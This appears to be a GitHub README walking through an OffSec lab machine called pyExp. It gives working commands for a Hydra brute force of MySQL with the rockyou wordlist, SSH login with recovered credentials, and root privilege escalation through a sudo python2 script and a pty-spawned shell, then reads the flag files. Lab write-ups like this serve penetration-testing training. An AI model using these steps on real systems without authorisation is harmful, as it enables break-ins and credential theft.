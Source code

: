# Offsec-pyExp

```
Usage : python3 resolv-pyExp.py -i <IP_ADDRESS> -p 3306 -w <WORDLIST>

```

Specific Steps for pyExp

Reconnaissance: Scan to identify running services, particularly MySQL (tcp/3306) and SSH (tcp/1337).

Brute Force MySQL: Use Hydra to brute force MySQL access using the wordlist /usr/share/wordlist/rockyou.txt.

```bash
hydra -l root -P <WORDLIST> mysql://<IP_ADDRESS>:3306
```
Database Access: Extract the encrypted SSH credentials via the symmetric Fernet algorithm from the `data` table.

SSH Connection: Decrypt the credentials and connect via SSH on tcp/1337.

```bash
ssh <user>@<IP_ADDRESS> -p 1337
```
Privilege Escalation: The user 'lucy' can execute a script with root privileges without a password. Use it for privilege escalation.

```bash
sudo /usr/bin/python2 /opt/exp.py
import pty;pty.spawn("/bin/bash")
```

Flag Retrieval: Read the local.txt and proof.txt files after privilege escalation.

```bash
cat local.txt
cat /root/proof.txt
```
### Image
![offsec-pyExp1](https://github.com/Isid0r3/Offsec-pyExp/assets/120736091/14d169b5-e627-49d8-9c90-15a7ccd9bd16)


Credits : [Isid0r3](https://www.linkedin.com/in/isid0r3) & [Jedidia](https://linkedin.com/in/jedidia-d-bahena-0814161b7)
